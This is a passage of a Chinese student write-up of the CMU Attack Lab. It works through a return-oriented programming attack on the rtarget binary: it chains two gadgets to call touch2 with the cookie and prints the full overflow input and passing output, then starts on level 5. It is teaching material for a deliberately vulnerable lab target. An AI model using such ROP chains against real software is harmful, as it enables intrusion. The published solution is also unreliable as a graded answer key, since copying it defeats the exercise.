*   **工具：** 可以使用以下类型的指令构造 `gadget`，并且仅限使用前八个 `x86-64` 寄存器（`%rax–%rdi`）：
    *  movq
    
    *  popq
    
    *  ret：单字节 `0xc3`
    *  nop：单字节 `0x90`，作用是使程序计数器（PC）前进 1 字节，不产生其他效果。
*   **建议**
    *   所需的所有 `gadget` 都可以在 `rtarget` 中 `start_farm` 到 `mid_farm` 之间的代码区域中找到。
    *   仅用两个 `gadget` 完成此次攻击。
    *   当 `gadget` 包含 `popq` 指令时，它会从栈中弹出数据。因此，**攻击字符串（`exploit string`）需要同时包含 `gadget` 地址和所需的数据。**


#### 3.1.1 分析

**目标**：

本题的任务与`level 2`相同，都是要求返回到`touch2`函数，`level 2`中用到的注入代码为：
```s
movq $0x59b997fa %rdi
push $0x4017ec
ret
```

**获取`rtarget`的汇编代码及其字节级别表示**

```sh
objdump -d rtarget >> readrtarget
```

**问题分析**

但是无法找到带指定立即数的 `gadget`，因此需要寻找其他方法。

- **方案一：** 考虑将 cookie 放在栈中然后利用如下`gadget`  将 `cookie` 赋值给 `%rdi`。当 `ret` 后，从栈中取出来的返回地址在设置为`touch2`的地址就可以实现目标。**但是在`farm`中无法找到上述指令的`gadget`。**

    ```s
    pop %rdi  # 5f c3 或 5f 90 c3
    ret
    ```


- **方案二**: 题目提示可以需要用两个`gadget`指令完成此次攻击，因此可以使用两个`gadget`。

  - 首先利用第一个`gadget`将 栈里的 cookie 利用  pop 指令弹出到某个寄存器a
  - 然后利用 mov `gadget` 将 a 中的值移动到 rdi

    ```s
    popq %rax
    ret

    ------

    movq %rax %rdi
    ret
    ```

    此时执行流程为：

    ```txt
    栈上数据： [gadget1地址] → [cookie值] → [gadget2地址] → [touch2地址]
                ↑               ↑               ↑               ↑
                popq %rax      被pop到rax      movq %rax,%rdi  跳转到touch2
    ```

#### 3.1.2 解决方案

**攻击初始条件**
  1. getbuf函数有40字节的缓冲区
  2. 通过缓冲区溢出，我们可以覆盖返回地址和后续栈空间
  3. 需要将`cookie`值0`x59b997fa`传递给`touch2`函数作为参数（放入`%rdi`）

**栈布局设计（从低地址到高地址）**



**执行流程**

```
getbuf返回 → gadget1(pop rax) → gadget2(mov rdi, rax) → touch2
      ↓              ↓                   ↓
    ret         pop cookie         mov到rdi
      ↓              ↓                   ↓
   跳转gadget1   ret跳gadget2     ret跳touch2
```

**构造输入序列**

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00  # gadget 1
fa 97 b9 59 00 00 00 00  # cookie
c5 19 40 00 00 00 00 00  # gadget 2
ec 17 40 00 00 00 00 00  # touch2
```

**执行命令**

```sh
./hex2raw < rsolution1.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```

### 3.2 Level 5 ：ROP实现Level 3(5分 - 高难度)

*   **目标**：使用`gadget farm`中的工具，让程序跳转到`touch3`并传入`cookie`字符串的地址。
*   **方法**：
    -  构造一个复杂的ROP链,可以使用 `rtarget` 中从 `start_farm` 到 `end_farm` 之间的 `gadget`（比第 4 阶段的范围更大）
    -  需要利用`movl`指令（影响寄存器低32位）来构建`cookie`字符串的地址。
    
    -  可能需要使用`nop`类指令（如`andb %al, %al`）来填充和调整栈布局。
    
    -  最终将构建好的地址加载到`%rdi`，然后跳转到`touch3`。
*   **关键点**：这是终极挑战，官方解法需要8个Gadget。需要深刻理解`movl`指令会清零寄存器高32位的特性。